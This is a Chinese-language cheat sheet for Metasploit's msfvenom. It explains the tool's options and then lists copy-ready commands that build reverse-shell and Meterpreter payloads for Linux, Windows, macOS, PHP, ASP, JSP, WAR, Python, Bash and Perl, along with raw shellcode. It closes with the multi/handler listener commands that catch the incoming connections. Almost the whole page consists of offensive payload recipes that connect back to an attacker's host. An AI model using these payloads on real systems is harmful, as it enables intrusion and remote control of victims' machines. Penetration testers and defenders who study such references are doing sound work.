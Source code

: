 Msfvenom – Metasploit 生成 Payloads 备忘录

Metasploit 是使用最多的渗透测试框架，本文整理一些 Msfvenom 常用命令；让您快速的生成各类Payloads

msfvenom
选项:

-p, –payload < payload> 指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用& #039;-& #039;或者stdin指定

-l, –list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all

-n, –nopsled < length> 为payload预先指定一个NOP滑动长度

-f, –format < format> 指定输出格式 (使用 –help-formats 来获取msf支持的输出格式列表)

-e, –encoder [encoder] 指定需要使用的encoder（编码器）

-a, –arch < architecture> 指定payload的目标架构

–platform < platform> 指定payload的目标平台

-s, –space < length> 设定有效攻击荷载的最大长度

-b, –bad-chars < list> 设定规避字符集，比如: & #039;\x00\xff& #039;

-i, –iterations < count> 指定payload的编码次数

-c, –add-code < path> 指定一个附加的win32 shellcode文件

-x, –template < path> 指定一个自定义的可执行文件作为模板

-k, –keep 保护模板程序的动作，注入的payload作为一个新的进程运行

–payload-options 列举payload的标准选项

-o, –out < path> 保存payload

-v, –var-name < name> 指定一个自定义的变量，以确定输出格式

–shellest 最小化生成payload

-h, –help 查看帮助选项

–help-formats 查看msf支持的输出格式列表

二进制

Linux

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Mac

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Web

PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

脚本

Python

msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash

msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl

msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

Shellcode
有关所有shellcode，请参阅’msfvenom -help-formats’以获取有关有效参数的信息。

基于Linux的Shellcode

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

基于Windows的Shellcode

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

基于Mac的Shellcode

msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

监听
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z